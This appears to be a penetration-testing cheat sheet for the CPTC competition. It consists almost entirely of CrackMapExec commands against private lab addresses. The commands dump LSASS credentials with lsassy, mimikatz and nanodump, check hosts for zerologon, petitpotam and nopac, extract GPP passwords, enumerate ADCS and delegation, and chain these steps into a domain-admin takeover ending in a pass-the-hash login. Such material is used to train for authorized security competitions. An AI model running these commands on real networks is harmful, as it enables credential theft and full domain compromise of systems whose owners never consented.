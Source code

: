 
### Phase 6: Advanced Modules (CPTC Gold Mines)

```bash
# List all available modules
crackmapexec smb -L

# Show module information
crackmapexec smb -M lsassy --module-info

# Dump credentials from memory (LSASS) - CRITICAL
crackmapexec smb 10.10.10.0/24 -u 'administrator' -p 'Password123' -M lsassy

# Alternative credential dumping
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' -M mimikatz
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' -M nanodump

# Enumerate antivirus products
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' -M enum_av

# Check for common vulnerabilities
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' -M zerologon
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' -M petitpotam
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' -M nopac

# Token impersonation opportunities
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' -M tokens

# Enumerate MssQL servers and databases
crackmapexec mssql 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!'
crackmapexec mssql 10.10.10.55 -u 'jsmith' -p 'Summer2024!' --local-auth -M mssql_priv

# Check for delegation issues (unconstrained/constrained)
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' -M delegation

# Find Group Policy Preferences passwords (old networks)
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' -M gpp_password

# Enumerate certificates (ESC attacks)
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' -M adcs
```

---

## CPTC-Specific Command Chains

### Scenario 1: Initial Access → Domain Admin
```bash
# 1. Discover network
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt

# 2. Found credentials via phishing
crackmapexec smb targets.txt -u 'jsmith' -p 'Summer2024!' -d CORP

# 3. Check where user is local admin
grep "Pwn3d" cme_output.txt

# 4. Dump credentials from owned machine
crackmapexec smb 10.10.10.50 -u 'jsmith' -p 'Summer2024!' -M lsassy

# 5. Found Domain Admin hash in memory
crackmapexec smb 10.10.10.1 -u 'dadmin' -H 'aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71'

```